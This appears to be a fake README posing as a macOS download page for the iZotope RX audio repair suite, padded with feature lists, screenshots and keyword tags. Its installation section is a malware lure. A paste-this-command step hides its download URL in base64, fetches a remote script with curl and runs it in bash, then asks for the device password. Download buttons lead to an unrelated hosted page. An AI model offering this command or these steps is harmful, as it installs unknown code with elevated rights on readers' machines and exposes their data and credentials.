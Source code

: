 # 🎙 iZotope RX — Industry-Leading Audio Repair Suite for macOS

**iZotope RX** is the world’s most trusted audio repair and restoration software for macOS. Designed for music producers, post-production engineers, and broadcasters, RX delivers powerful tools to fix, clean, and enhance any audio with surgical precision.

Whether you're restoring old recordings, cleaning dialogue, or removing noise from live performances, iZotope RX provides an unmatched set of features — fully optimized for macOS and Apple Silicon.

---

## ✅ Download iZotope RX for macOS  
[![Download iZotope RX](https://img.shields.io/badge/Download-iZotope_RX-blue)](https://shuziktobehuman.github.io/huja/iZotope)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is iZotope RX?

iZotope RX is an award-winning audio editor and repair toolkit offering intelligent noise reduction, spectral editing, de-clipping, voice de-noising, and more. Widely used in Hollywood post-production and professional studios, RX includes multiple editions (Elements, Standard, Advanced) and integrates seamlessly into macOS-based workflows with AU, VST, and AAX plug-in support.

---

## ✨ Features

- 🧽 **Spectral Repair** to visually remove clicks, pops, hums, and background noise  
- 🎚 **Voice De-noise** and **Dialogue Isolate** for clean vocals and interviews  
- 🔊 Advanced **De-click**, **De-crackle**, **De-hum**, and **De-clip** tools  
- 🎧 **Ambience Match** to fill in gaps or smooth edits  
- 🛠 Plug-in & standalone operation with full DAW integration  
- 🖥 Optimized for macOS Sonoma & Apple Silicon (M1/M2/M3)  
- 🔍 Multi-channel support and batch processing for large projects  
- 🎼 Music Rebalance to isolate or remove vocals, drums, bass, or other instruments  
- 🧠 AI-powered repair assistants for fast, intelligent results  
- 📁 Export stems for mixing, mastering, or remastering workflows  

---

## 💡 Why Use iZotope RX?

- 🎙 Trusted by professionals in film, music, and broadcast  
- 🧩 Complete audio repair suite in one package  
- 🖱 Precision control with intuitive spectral display  
- 🎧 Perfect for cleaning podcasts, voiceovers, live audio, and archival content  
- ⚡ Streamlined for both beginners and advanced engineers  
- 🖥 Seamless compatibility with Logic Pro, Pro Tools, Final Cut, and more  

---

[![Download iZotope RX](https://img.shields.io/badge/Download-iZotope_RX-blue)](https://shuziktobehuman.github.io/huja/iZotope)

---



## 🖼 Preview

![iZotope RX Screenshot 1](https://images.squarespace-cdn.com/content/v1/54d696e5e4b05ca7b54cff5c/f000ad0a-3e71-4de7-91e8-4540b525a307/iZotope+RX+10+Released+Hero.jpg)  
![iZotope RX Screenshot 2](https://i.ytimg.com/vi/IVE9BcXm3Vo/maxresdefault.jpg)

---

## 📌 Tags

izotope rx, izotope rx 10, izotope rx10, izotope rx9, rx elements, izotope rx8, izotope rx7,  
izotope rx elements, rx elements izotope, izotope rx 11, izotope rx11, izotoperx9,  
rx10 izotope, rx9 izotope, izotope rx 10 advanced, rx8 izotope, izotope rx advanced,  
izotope rx 10 standard, rx 10 standard, rx7 izotope, izotope rx 9 download,  
izotope rx standard, rx 10 advanced, izotope rx 8 download, izotope rx7 download,  
izotope rx 10 elements, rx 10 elements, izotope rx mac, izotope rx mac download

---

